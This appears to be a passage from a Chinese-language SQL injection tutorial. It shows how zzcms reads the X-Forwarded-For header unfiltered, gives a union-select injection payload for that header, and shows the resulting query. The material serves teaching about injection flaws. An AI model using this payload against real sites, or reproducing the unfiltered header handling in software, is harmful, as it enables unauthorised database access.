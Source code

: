 ![1645176338339-1fbc9c7f-e523-40be-81ac-994d706874cb.png](.\SQL注入原理.assets\2504969-20230912132810710-77342179.png)

~~~bash
关键接受：if (getenv("HTTP_X_FORWARDED_FOR") && strcasecmp(getenv("HTTP_X_FORWARDED_FOR"), "unknown")) 
$ip = getenv("HTTP_X_FORWARDED_FOR"); 
这个可以在数据包上构造，就是X-FORWARDED-FOR:8.8.8.8
这个接受IP并没有过滤，那么可以抓包，进行登录，请求，用X-FORWARDED-FOR:8.8.8.8进行代入注入。
构造payload：X-Forwarded-For:1.2.6.4'union select 1,2,3,4#
~~~

![1645178497838-83fd696c-1854-42e5-baea-c3ade73bb5dc.png](.\SQL注入原理.assets\2504969-20230912132811356-625519517.png)

~~~bash
进行数据库监控，发现关键语句：
select * from zzcms_login_times where ip='1.2.6.4'union select 1,2,3,4#' and count>=5 and unix_timestamp()-unix_timestamp(sendtime)<900
~~~

![1645178546628-438052e3-2b89-4159-b9d9-01289112d1d7.png](.\SQL注入原理.assets\2504969-20230912132811311-1712687695.png)
